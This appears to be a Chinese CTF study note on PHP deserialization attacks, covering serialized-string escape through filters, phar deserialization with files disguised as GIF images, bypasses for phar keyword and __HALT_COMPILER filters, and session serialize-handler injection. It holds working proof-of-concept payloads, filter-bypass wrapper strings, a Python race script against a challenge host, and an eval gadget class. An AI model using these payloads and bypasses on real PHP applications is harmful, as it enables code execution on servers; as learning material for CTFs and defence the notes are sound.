


[TOC]

PHP类与对象：类、对象、方法、属性

序列化与反序列化：

- `string serialize ( mixed $value )`

  用于序列化对象或数组，并返回一个字符串。

  注意：如果属性是保护和私有的属性，那么他们序列化后的属性名会被特殊字符包裹

- `mixed unserialize ( string $str )`

  用于将通过`serialize()`函数序列化后的对象或数组进行反序列化，并返回原始的对象结构。

如何造成的反序列化？首先就是**要有可用的魔术方法作为“跳板”，且存在一些只要参数可控就会造成破坏的函数调用。**

1. 直接控制`unserialize()`的参数值

   pop链的构造：<u>*awctf --- HE-ezser*</u>

   <u>*adminpage*</u>

2. 文件读取操作

   phar压缩文件
   
   <u>*codeinlog*</u>

### PHP反序列化字符串逃逸

[PHP反序列化字符逃逸详解_filter反序列化_zhang三的博客-CSDN博客](https://blog.csdn.net/qq_45521281/article/details/107135706)

php代码序列化后的基本格式：

```
O:<length>:"<class name>":<n>:{
<field type 1>:<field length 1>:"<field name 1>";<field value type 1>:<field value 1>;
...
<field type n>:<field length n>:"<field name n>";<field value type n>:<field value n>;} 
```

- O:表示序列化的事对象
- < length>:表示序列化的类名称长度
- < class name>：表示序列化的类的名称
- < n >:表示被序列化的对象的属性个数
- {…………}：属性列表
- < field type >：属性类型
- < field length >：属性名长度
- < field name >：属性名
- < field value type >：属性值类型
- < field value >：属性值


此类题目的本质就是改变序列化字符串的长度，导致反序列化漏洞

这种题目有个共同点：

1. php序列化后的字符串经过了替换或者修改，导致字符串长度发生变化。
2. 总是先进行序列化，再进行替换修改操作。

**序列化后导致字符串变长**：<u>*awctf --- 蒸滴简单*</u>

```php
<?php
function filter($str){
    return str_replace('bb', 'ccc', $str);
}
class A{
    public $name='aaaa';
    public $pass='123456';
}
$a=new A();
echo serialize($a)."\n";
$res=filter(serialize($a));

$c=unserialize($res);
echo $c->name;
?>
```

**序列化后导致字符串变短**：<u>*buuctf --- [安洵杯 2019]easy_serialize_php*</u>

```php
<?php
function str_rep($string){
	return preg_replace( '/php|test/','', $string);
}

$test['name'] = '111phpphpphpphpphpphptest';
$test['sign'] ='111";s:4:"sign";s:3:"222";s:6:"number";s:4:"2023";}'; 
$test['number'] = '2020';
$temp = str_rep(serialize($test));
printf($temp);
$fake = unserialize($temp);
echo "\n";
print("name:".$fake['name']."\n");
print("sign:".$fake['sign']."\n");
print("number:".$fake['number']."\n");

```


### phar反序列化

https://blog.csdn.net/q20010619/article/details/120833148

**要将php.ini中的phar.readonly选项设置为Off，否则无法生成phar文件**

phar文件是php里类似于JAR的一种打包文件本质上是一种压缩文件，在PHP 5.3 或更高版本中默认开启，一个phar文件一个分为四部分：a.phar

>1.a stub
>
>​    可以理解为一个标志，格式为xxx<?php xxx; __HALT_COMPILER();?>，前面内容不限，但必须以__HALT_COMPILER();来结尾，否则phar扩展将无法识别这个文件为phar文件
>
>2.a manifest describing the contents
>
>​	phar文件本质上是一种压缩文件，其中每个被压缩文件的权限、属性等信息都放在这部分。这部分还会以序列化的形式存储用户自定义的meta-data，这是上述攻击手法最核心的地方
>
>3.the file contents
>
>被压缩文件的内容
>
>4.[optional] a signature for verifying Phar integrity (phar file format only)
>
>​	签名，放在文件末尾、

```php
<?php
    class TestObject {
    }

    @unlink("phar.phar");
    $phar = new Phar("phar.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("asdas<?php __HALT_COMPILER(); ?>"); //设置stub
    $o = new TestObject();
    $phar->setMetadata($o); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
?>
```

meta-data是以序列化的形式存储的

php一大部分的文件系统函数在通过phar://伪协议解析phar文件时，都会将meta-data进行反序列化，测试后受影响的函数如下



phar协议要求：

- php大于5.3.0
- 需要将php.ini的参数phar.readonly设置为off

**漏洞利用条件**

1. phar文件要能够上传到服务器端。
2. 要有可用的魔术方法作为“跳板”。
3. 文件操作函数的参数可控，且`:`、`/`、`phar`等特殊字符没有被过滤

#### 将phar伪造成其他格式的文件

如果文件上传界面后端代码会检查文件类型的话，就需要将 phar 文件未造成其他格式文件

由于php识别phar文件是通过其文件头的stub，更确切一点来说是`__HALT_COMPILER();`这段代码，对前面的内容或者后缀名是没有要求的。那么我们就可以通过添加任意的文件头+修改后缀名的方式将phar文件伪装成其他格式的文件

>474946383961, .gif, "GIF 89A"
>
>474946383761, .gif, "GIF 87A"

```php
<?php
    class TestObject {
    }

    @unlink("phar.phar");
    $phar = new Phar("phar.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>"); //设置stub
    $o = new TestObject();
    $phar->setMetadata($o); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
?>
```


#### 绕过phar关键字检测

```
if (preg_match("/^php|^file|^gopher|^http|^https|^ftp|^data|^phar|^smtp|^dict|^zip/i",$filename){
    die();
}
```

绕过方法

```
// Bzip / Gzip 当环境限制了phar不能出现在前面的字符里。可以使用compress.bzip2://和compress.zlib://绕过
compress.bzip://phar:///test.phar/test.txt
compress.bzip2://phar:///home/sx/test.phar/test.txt
compress.zlib://phar:///home/sx/test.phar/test.txt
// 还可以使用伪协议的方法绕过
php://filter/resource=phar:///test.phar/test.txt
php://filter/read=convert.base64-encode/resource=phar://phar.phar
```

#### 绕过__HALT_COMPILER特征检测

因为phar中的`a stub`字段必须以`__HALT_COMPILER();`字符串来结尾，否则`phar`扩展将无法识别这个文件为`phar`文件，所以这段字符串不能省略，只能绕过

**方法一：**

首先将 phar 文件使用 gzip 命令进行压缩，可以看到压缩之后的文件中就没有了`__HALT_COMPILER()`，将 phar.gz 后缀改为 png（png文件可以上传）



```
filename=phar://pharppp.phar.gz/pharppp.phar
```

**方法二**

将phar的内容写进压缩包注释中，也同样能够反序列化成功，压缩为zip也会绕过该正则

```
$phar_file = serialize($exp);
    echo $phar_file;
    $zip = new ZipArchive();
    $res = $zip->open('1.zip',ZipArchive::CREATE); 
    $zip->addFromString('crispr.txt', 'file content goes here');
    $zip->setArchiveComment($phar_file);
    $zip->close();
```

这篇文章在php源码角度给出分析：https://www.anquanke.com/post/id/240007

> phar反序列化过程中，对metadata进行解析的时候会进行`php_var_unserialize()`将Phar中的metadata进行反序列化

<u>*ctfshow --- 276*</u>

<u>*BUUCTF --- [NCTF2019]phar matches everything*</u>

```python
#!/usr/bin/env python
# -*- coding: UTF-8 -*-

import requests
import threading

flag = False
url = "http://8f6f1872-fd37-4431-a005-55b6b4e1d2a2.challenge.ctf.show/"
data = open('./phar.phar', 'rb').read()

pre_resp = requests.get(url)
if pre_resp.status_code != 200:
    print(url + ' -> nonono')
    exit(1)

def upload():
    global flag
    while not flag:
        requests.post(url+"?fn=phar.phar", data=data)


def read():
    global flag
    while not flag:
        r = requests.post(url+"?fn=phar://phar.phar/", data="")
        if "ctfshow{" in r.text and flag is False:
            print(r.text)
            flag = True

if __name__ == "__main__":
    a = threading.Thread(target=upload)
    b = threading.Thread(target=read)
    a.start()
    b.start()
    a.join()
    b.join()
```

### session反序列化

先说一下 PHP 处理 session 的一些细节信息。

PHP 在存储 session 的时候会进行序列化，读取的时候会进行反序列化。它内置了多种用来序列化/反序列化的引擎，用于存取 `$_SESSION` 数据：

1. `php`: 键名 + `|` + 经过 `serialize()`/`unserialize()` 处理的值。这是现在默认的引擎。
2. `php_binary`: 键名的长度对应的 ASCII 字符 + 键名 + 经过 `serialize()`/`unserialize()` 处理的值
3. `php_serialize`: 直接使用 `serialize()`/`unserialize()` 函数。(php>=5.5.4)

session 相关的信息，可以在 phpinfo 里查到：


1. `session.auto_start`: 是否自动启动一个 session
2. `session.save_path`: 设置 session 的存储路径
3. `session.save_handler`: 设置保存 session 的函数
4. `session.serialize_handler`: 设置用来序列化/反序列化的引擎
5. `session.upload_progress.enabled`: 启用上传进度跟踪，并填充$ _SESSION变量，默认启用
6. `session.upload_progress.cleanup`: 读取所有POST数据（即完成上传）后立即清理进度信息，默认启用

在我这个 PHP 的配置中，不会自动记录 session，session 内容是以文件方式来存储的（文件以 `sess_` + sessionid 命名）；由于存储的路径为空，所以运行的时候需要指定一下；序列化/反序列引擎为 `php`。

```
┌──(root💀kali)-[/home/soyamilk/桌面]
└─# php ser_session.php                     
                                                                                                                                                                                                     
┌──(root💀kali)-[/home/soyamilk/桌面]
└─# php -d 'session.serialize_handler=php_binary' ser_session.php 
                                                                                                                                                                                                     
┌──(root💀kali)-[/home/soyamilk/桌面]
└─# php -d 'session.serialize_handler=php_serialize' ser_session.php
```


**进行利用：**

不同的序列化/反序列化引擎对数据处理方式不同，造成了安全问题。

引擎为 php_binary 的时候，暂未发现有效的利用方式，所以目前主要还是 php 与 php_serialize 两者混用的时候导致的问题。

phpinfo


set_session.php

```php
<?php
    ini_set('session.serialize_handler', 'php_serialize');
    ini_set('session.save_path', 'D:\phpstudy_pro\WWW\PHP_session_unserialize_demo\session_save');
	session_start();
	$_SESSION['name0'] = 'wi1shu';
    if (array_key_exists('payload', $_GET)){
        $_SESSION['name1'] = $_GET['payload'];
    }else{
        $_SESSION['name1'] = '"|s:6:"wi1shu';
    }

    print_r(session_id());
```

unserialize_session.php

```php
<?php
    ini_set('session.save_path', 'D:\phpstudy_pro\WWW\PHP_session_unserialize_demo\session_save');
    session_start();
    var_dump($_SESSION);
```


php 引擎的格式为：键名 + `|` + 经过 `serialize()`/`unserialize()` 处理的值。那么对于这个例子来说，name 就是 `a:2:{s:5:"name0";s:6:"wi1shu";s:5:"name1";s:13:""`，`s:6:"wi1shu";}` 就是待反序列化的值。那么这里就非常清楚了，本质上就是通过 `|` 来完成注入（`"` 负责闭合引号，防止解析错误），让 php 引擎误以为前面全是 name，这样参与反序列化的数据就可以由我们来控制了。

举个例子

test_session.php

```php
<?php
highlight_file(__FILE__);
ini_set('session.save_path', dirname(__FILE__).'\session_save');
class f4ke{
    public $name;
    function __wakeup(){
        echo "Whata rey oud oing?";
    }
    function __destruct(){
        eval($this->name);
    }
}

session_start();
var_dump($_SESSION);
$str = new f4ke();
?>
```

结合 set_session.php 就能够实现反序列化命令执行


